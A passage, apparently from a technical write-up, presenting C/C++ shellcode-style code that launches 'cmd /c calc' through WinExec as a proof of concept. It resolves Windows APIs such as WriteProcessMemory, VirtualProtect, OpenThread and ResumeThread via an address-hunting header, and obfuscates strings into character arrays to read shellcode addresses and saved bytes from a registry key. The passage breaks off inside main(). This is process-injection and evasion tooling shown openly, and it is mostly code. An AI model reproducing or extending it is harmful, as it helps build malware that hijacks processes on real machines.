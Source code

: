 ```
CHAR WinExecCommand[] = { 'c', 'm', 'd', ' ', '/', 'c', ' ', 'c', 'a', 'l', 'c', '\0' };
WinExecFunc((LPCSTR)WinExecCommand, 0);
```

If you want to check the full implementation, check below:



```cpp
#include <stdio.h>
#include "addresshunter.h"

#define USE_REGISTRY_FOR_DLL
#define NO_LIB_RELOAD
#define SHORT_SLEEP 2000
#define LONG_SLEEP 15000

typedef HANDLE(WINAPI* OpenThreadType)(DWORD dwDesiredAccess, BOOL  bInheritHandle, DWORD dwThreadId);
typedef DWORD(WINAPI* ResumeThreadType)(HANDLE hThread);
#ifdef WPM
typedef BOOL(WINAPI* WriteProcessMemoryType)(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T* lpNumberOfBytesWritten);
#endif
typedef LSTATUS(WINAPI* RegOpenKeyType)(HKEY hKey, LPCWSTR lpSubKey, PHKEY phkResult);
typedef LSTATUS(WINAPI* RegDeleteKeyType)(HKEY hKey, LPCWSTR lpSubKey);
typedef LSTATUS(WINAPI* RegGetValueType)(HKEY hkey, LPCWSTR lpSubKey, LPCTSTR lpValue, DWORD dwFlags, LPDWORD pdwType, PVOID pvData, LPDWORD pcbData);
typedef LSTATUS(WINAPI* RegCloseKeyType)(HKEY hKey);
typedef BOOL(WINAPI* VirtualProtectType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef BOOL(WINAPI* FreeLibraryType)(HMODULE hModule);
typedef DWORD(WINAPI* WaitForSingleObjectType)(HANDLE hHandle, DWORD dwMilliseconds);

typedef HANDLE(WINAPI* OpenMutexType)(DWORD dwDesiredAccess, BOOL bInheritHandle, LPCWSTR lpName);
typedef BOOL(WINAPI* CloseHandleType)(HANDLE hObject);

typedef void* (WINAPIV* mallocType)(size_t size);
typedef void* (WINAPIV* memsetType)(void* dest, int c, size_t count);
typedef void* (WINAPIV* memcpyType)(void* dest, const void* src, size_t count);
typedef void (WINAPIV* freeType)(void* memblock);
#ifdef _DEBUG
typedef void (WINAPIV* printfType)(const char* fmt, ...);
#endif
typedef HMODULE(WINAPI* LoadLibraryType)(LPCWSTR lpLibFileName);
typedef void (WINAPI* SleepType)(DWORD dwMilliseconds);
typedef UINT(WINAPI* WinExecType)(LPCSTR lpCmdLine, UINT uCmdShow);
typedef void (WINAPI* ExitThreadType)(DWORD dwExitCode);



int main() {

    UCHAR* cbBuf;
    UCHAR* tmpBuf;
    HKEY hKey;
    WCHAR regKey[] = { 'S', 'O', 'F', 'T', 'W', 'A', 'R', 'E', '\\', 'L', 'a', 'm','w','a', 'r', 'e', '\0' };
    LPCTSTR value;

    WCHAR saValue[] = { 'S', 't', 'a', 'r', 't', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shValue[] = { 'S', 'C', 'o', 'd', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shsValue[] = { 'S', 'C', 'o', 'd', 'e', 'S', 'i', 'z', 'e', '\0' };
    WCHAR sbValue[] = { 'S', 'a', 'v', 'e', 'd', 'B', 'y', 't', 'e', 's', '\0' };
    WCHAR tiValue[] = { 'T', 'h', 'r', 'e', 'a', 'd', 'I', 'd', '\0' };
```